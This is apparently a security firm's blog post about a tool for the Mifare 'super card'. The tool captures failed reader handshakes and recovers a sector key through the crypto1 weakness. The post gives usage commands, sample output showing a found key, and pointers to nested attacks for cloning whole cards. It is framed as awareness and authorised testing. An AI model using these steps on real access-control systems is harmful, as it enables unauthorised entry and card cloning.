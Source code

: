 ```yaml
---
layout: post
title:  "Cracking Mifare with the Super-Card"
date:   2018-05-17 13:49:33 +0000
tags: [RFID, hardware, pentest, redteam, blueteam]
---
```

_Alternatively called Proxmark-Card, Sniffer-Card, or Suppa Card_

![](/assets/RFID_reader.jpeg)

The program below is an interface to the Mifare Super (Suppa/Supper) Card utilising the libnfc 1.7.1 library (probably now outdated as this program was written in early 2014).

Why release now…. Many super-card card programs are either broken / wrong type / or written in Chinese. This is a simple English (or American) Language program to facilitate non-Chinese users, and released as Open Source so that the content can be analysed and confirmed to be true to purpose and non-malicious if you do not trust it?

This program has been tested successfully on the USB ACR-122U reader on the following operating systems:
* WinXP (32bit) SP0/1/2/3
* Vista (32bit) SP0/1/2

**Note**: From Windows 7+ Microsoft changed the way smartcard drivers operate, and I havnt figured out how to support the later versions of Windows.

The program has two modes read & write, these operations are detailed below…

The attack is based off the collection of two cryptographic handshakes (based off the Mifare UID) we can then use the crypto1 algorithm to discover one key used to access the particular Mifare sector; other attacks can then be performed to access and clone an entire card.

Code: [https://github.com/netscylla/super-card](https://github.com/netscylla/super-card)

## Where to buy a Super Card?
I sourced mine for a reasonable price from an RFID tech-friend (he used http://www.taobao.com). You can source them from other places but I believe the price can often be jacked up considerably, and delivery is unreliable. So sourcing them can be a challenge!

## Super-card Usage
### Set a UID
Using the ‘-w’ flag set a 4-byte (8 hex chars) UID
```
$ nfc-super.exe -w 22334455
Mifare Super Card v0.1 ©2014 Andy
ISO/IEC 14443A (106 kbps) target:
 ATQA (SENS_RES): 00 04
 UID (NFCID1): 11 22 33 44
 SAK (SEL_RES): 08
```
## Operation
Place the card onto a Mifare reader, and ensure you obtain two or more (2+) failed authentication attempts — normally observed by flashing lights on the reader, or wait 6–10 secs.

## Obtain data and crack key
Place the super-card on your reader (we use an old and reliable USB ACR-122U), launch the program with the ‘-r’ flag, and the program should automatically obtain the necessary values and crack the reader key.
```
$ nfc-super.exe -r
Mifare Super Card v0.1 ©2014 Andy
ISO/IEC 14443A (106 kbps) target:
 ATQA (SENS_RES): 00 04
 UID (NFCID1): 22 33 44 55
 SAK (SEL_RES): 08
 UID: 22 33 44 55
1:NR: c9 6f 2e a5
1:AR: 71 67 3d 4d
2:NR: 38 aa fa ba
2:AR: 5d 32 cd f4
Cracking…
Found Key: [e5b20aeeffff]
```
## Further cracking
Use the Mifare nested attack (or mfoc.exe) to crack any remaining keys on a genuine card.

## Disclaimer
Netscylla or its staff cannot be held responsible for any abuse relating from this blog post. This post is to raise awareness in the design and security flaws of the Mifare access control systems. It is illegal to attempt unauthorised access on any system you do not personally own, or have explicit permission in writing from the owner! If in doubt contact your local authority or local digital lock-sport community for additional advice.
